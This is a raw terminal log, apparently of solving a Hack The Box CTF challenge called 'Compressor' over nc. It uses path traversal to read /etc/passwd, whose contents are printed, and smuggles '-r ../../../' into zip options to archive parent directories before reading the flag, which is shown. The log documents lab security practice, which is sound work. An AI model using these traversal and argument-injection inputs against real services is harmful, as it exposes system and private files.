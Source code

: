 root@656f57f561b7 /s/g/I/P/c/2/H/F/Automation# nc 157.245.33.77 31732                                                                     130 main
# Compressor

[*] Directory to work in: QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component: 1

[*] Sub-directory to work in: QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 3


Insert name you want to read: ../../../../etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
utmp:x:100:406:utmp:/home/utmp:/bin/false
ctf:x:1000:1000:1000:/home/ctf:/bin/sh

-----------

Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 1


Insert name: ../

Insert content: #!/bin/bash
Traceback (most recent call last):
  File "/home/ctf/artifacts.py", line 104, in <module>
    create_file()
  File "/home/ctf/artifacts.py", line 74, in create_file
    f = open(fname, "a")
IsADirectoryError: [Errno 21] Is a directory: '../'


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 4


Insert <name>.zip: test.zip
Insert <name>: test
Insert <options>: -r ../../../
  adding: test (stored 0%)
  adding: ../../../ (stored 0%)
  adding: ../../../ctf/ (stored 0%)
  adding: ../../../ctf/68ubJQ7pIAFQ3AR5XmnIIyNFlMKU5EXd/ (stored 0%)
  adding: ../../../ctf/68ubJQ7pIAFQ3AR5XmnIIyNFlMKU5EXd/Head/ (stored 0%)
  adding: ../../../ctf/68ubJQ7pIAFQ3AR5XmnIIyNFlMKU5EXd/Hands/ (stored 0%)
  adding: ../../../ctf/68ubJQ7pIAFQ3AR5XmnIIyNFlMKU5EXd/Torso/ (stored 0%)
  adding: ../../../ctf/68ubJQ7pIAFQ3AR5XmnIIyNFlMKU5EXd/Legs/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/Head/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/Hands/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/Torso/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/Legs/ (stored 0%)
  adding: ../../../ctf/EpC4PRCjCI6UqE18aUIiUvFpCVgtiHQ6/Legs/test (stored 0%)
  adding: ../../../ctf/Hd5An501jos12kmr6khg0Jwqtyy1jRTm/ (stored 0%)
  adding: ../../../ctf/Hd5An501jos12kmr6khg0Jwqtyy1jRTm/Head/ (stored 0%)
  adding: ../../../ctf/Hd5An501jos12kmr6khg0Jwqtyy1jRTm/Hands/ (stored 0%)
  adding: ../../../ctf/Hd5An501jos12kmr6khg0Jwqtyy1jRTm/Torso/ (stored 0%)
  adding: ../../../ctf/Hd5An501jos12kmr6khg0Jwqtyy1jRTm/Legs/ (stored 0%)
  adding: ../../../ctf/t4oOfFbu85iTriXS82wQvhLrOgKFElwK/ (stored 0%)
  adding: ../../../ctf/t4oOfFbu85iTriXS82wQvhLrOgKFElwK/Head/ (stored 0%)
  adding: ../../../ctf/t4oOfFbu85iTriXS82wQvhLrOgKFElwK/Hands/ (stored 0%)
  adding: ../../../ctf/t4oOfFbu85iTriXS82wQvhLrOgKFElwK/Torso/ (stored 0%)
  adding: ../../../ctf/t4oOfFbu85iTriXS82wQvhLrOgKFElwK/Legs/ (stored 0%)
  adding: ../../../ctf/bcAV066lZgSOORQwxDo2Ni1QL3EibKsT/ (stored 0%)
  adding: ../../../ctf/bcAV066lZgSOORQwxDo2Ni1QL3EibKsT/Head/ (stored 0%)
  adding: ../../../ctf/bcAV066lZgSOORQwxDo2Ni1QL3EibKsT/Hands/ (stored 0%)
  adding: ../../../ctf/bcAV066lZgSOORQwxDo2Ni1QL3EibKsT/Torso/ (stored 0%)
  adding: ../../../ctf/bcAV066lZgSOORQwxDo2Ni1QL3EibKsT/Legs/ (stored 0%)
  adding: ../../../ctf/1RtEyWs5veSXrP6FkfIWcMvzv9I4fLsk/ (stored 0%)
  adding: ../../../ctf/1RtEyWs5veSXrP6FkfIWcMvzv9I4fLsk/Head/ (stored 0%)
  adding: ../../../ctf/1RtEyWs5veSXrP6FkfIWcMvzv9I4fLsk/Hands/ (stored 0%)
  adding: ../../../ctf/1RtEyWs5veSXrP6FkfIWcMvzv9I4fLsk/Torso/ (stored 0%)
  adding: ../../../ctf/1RtEyWs5veSXrP6FkfIWcMvzv9I4fLsk/Legs/ (stored 0%)
  adding: ../../../ctf/TiweCMr7bSMcAXuvbIqr5DnhOIJLRQv2/ (stored 0%)
  adding: ../../../ctf/TiweCMr7bSMcAXuvbIqr5DnhOIJLRQv2/Head/ (stored 0%)
  adding: ../../../ctf/TiweCMr7bSMcAXuvbIqr5DnhOIJLRQv2/Hands/ (stored 0%)
  adding: ../../../ctf/TiweCMr7bSMcAXuvbIqr5DnhOIJLRQv2/Torso/ (stored 0%)
  adding: ../../../ctf/TiweCMr7bSMcAXuvbIqr5DnhOIJLRQv2/Legs/ (stored 0%)
  adding: ../../../ctf/aPstJ5uVrTDkDnjPpdTaxRpHS1BmmKvT/ (stored 0%)
  adding: ../../../ctf/aPstJ5uVrTDkDnjPpdTaxRpHS1BmmKvT/Head/ (stored 0%)
  adding: ../../../ctf/aPstJ5uVrTDkDnjPpdTaxRpHS1BmmKvT/Hands/ (stored 0%)
  adding: ../../../ctf/aPstJ5uVrTDkDnjPpdTaxRpHS1BmmKvT/Torso/ (stored 0%)
  adding: ../../../ctf/aPstJ5uVrTDkDnjPpdTaxRpHS1BmmKvT/Legs/ (stored 0%)
  adding: ../../../ctf/blwvpiVBxCRu7bbeQwTEyYheCT9p6dFw/ (stored 0%)
  adding: ../../../ctf/blwvpiVBxCRu7bbeQwTEyYheCT9p6dFw/Head/ (stored 0%)
  adding: ../../../ctf/blwvpiVBxCRu7bbeQwTEyYheCT9p6dFw/Hands/ (stored 0%)
  adding: ../../../ctf/blwvpiVBxCRu7bbeQwTEyYheCT9p6dFw/Torso/ (stored 0%)
  adding: ../../../ctf/blwvpiVBxCRu7bbeQwTEyYheCT9p6dFw/Legs/ (stored 0%)
  adding: ../../../ctf/YYscAtpfKpNnkxtRdy4nZKcjxg5Tskoh/ (stored 0%)
  adding: ../../../ctf/YYscAtpfKpNnkxtRdy4nZKcjxg5Tskoh/Head/ (stored 0%)
  adding: ../../../ctf/YYscAtpfKpNnkxtRdy4nZKcjxg5Tskoh/Hands/ (stored 0%)
  adding: ../../../ctf/YYscAtpfKpNnkxtRdy4nZKcjxg5Tskoh/Torso/ (stored 0%)
  adding: ../../../ctf/YYscAtpfKpNnkxtRdy4nZKcjxg5Tskoh/Legs/ (stored 0%)
  adding: ../../../ctf/c9uFl1LTbTqSpnpqa9PkRDJFXRiWd1uQ/ (stored 0%)
  adding: ../../../ctf/c9uFl1LTbTqSpnpqa9PkRDJFXRiWd1uQ/Head/ (stored 0%)
  adding: ../../../ctf/c9uFl1LTbTqSpnpqa9PkRDJFXRiWd1uQ/Hands/ (stored 0%)
  adding: ../../../ctf/c9uFl1LTbTqSpnpqa9PkRDJFXRiWd1uQ/Torso/ (stored 0%)
  adding: ../../../ctf/c9uFl1LTbTqSpnpqa9PkRDJFXRiWd1uQ/Legs/ (stored 0%)
  adding: ../../../ctf/QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/ (stored 0%)
  adding: ../../../ctf/QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/Head/ (stored 0%)
  adding: ../../../ctf/QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/Hands/ (stored 0%)
  adding: ../../../ctf/QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/Torso/ (stored 0%)
  adding: ../../../ctf/QqcbsvCcKGxpk7n6JNvqNxPB19gC5OiB/Legs/ (stored 0%)
  adding: ../../../ctf/F9mZ4CfUW9NVXjEwShKzvoNYhq7DNwIb/ (stored 0%)
  adding: ../../../ctf/F9mZ4CfUW9NVXjEwShKzvoNYhq7DNwIb/Head/ (stored 0%)
  adding: ../../../ctf/F9mZ4CfUW9NVXjEwShKzvoNYhq7DNwIb/Hands/ (stored 0%)
  adding: ../../../ctf/F9mZ4CfUW9NVXjEwShKzvoNYhq7DNwIb/Torso/ (stored 0%)
  adding: ../../../ctf/F9mZ4CfUW9NVXjEwShKzvoNYhq7DNwIb/Legs/ (stored 0%)
  adding: ../../../ctf/artifacts.py (deflated 63%)
  adding: ../../../ctf/clear.py (deflated 32%)
  adding: ../../../ctf/flag.txt (stored 0%)

Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 3


Insert name you want to read: ../../../ctf/flag.txt
HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}